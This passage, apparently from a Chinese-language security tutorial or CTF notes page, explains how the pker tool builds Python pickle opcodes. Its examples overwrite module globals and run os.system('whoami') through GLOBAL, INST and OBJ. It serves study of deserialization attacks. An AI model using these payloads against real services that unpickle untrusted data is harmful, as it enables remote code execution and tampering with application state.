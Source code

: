 ### 工具二连 - 通过[<u>pker</u>](https://github.com/eddieivan01/pker)构造opcode

原理参见：[通过AST来构造Pickle opcode - 自动化构造](https://xz.aliyun.com/t/7012#toc-5)，利用了抽象语法树

![image-20210809232152276](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809232152276.png)

pker会用到`GLOBAL`, `INST`, `OBJ`这三种特殊函数和一些必要的转换方式；下面是pker的简单小栗子（更多使用说明详见上面的链接）

- 全局变量覆盖

  - ```python
    # 覆盖直接由执行文件引入secret模块中的name和category模块
    ecret = GLOBAL('__main__', 'secret')
    secret.name = '1'
    secret.category = '2'
    ```

  - ```python
    # 覆盖引入模块的变量
    game = GLOBAL('guess_game', 'game')
    game.curr_ticket = '123'
    ```

- 函数执行

  - ```python
    # 通过b'R'调用 __reducce__方法
    s = 'whoami'
    system = GLOBAL('os', 'system')
    system(s)
    return
    ```

  - ```python
    # 通过b'i'调用
    INST('os', 'system', 'whoami')
    ```

  - ```python
    # 通过b'c'和b'o'调用
    OBJ(GLOBAL('os', 'system'), 'whoami')
    ```

  - ```python
    # 多参数调用函数
    INST('[module]', '[callable]'[, param0, param1...])
    OBJ(GLOBAL('[module]', '[callable]')[, param0, param1...])
    ```
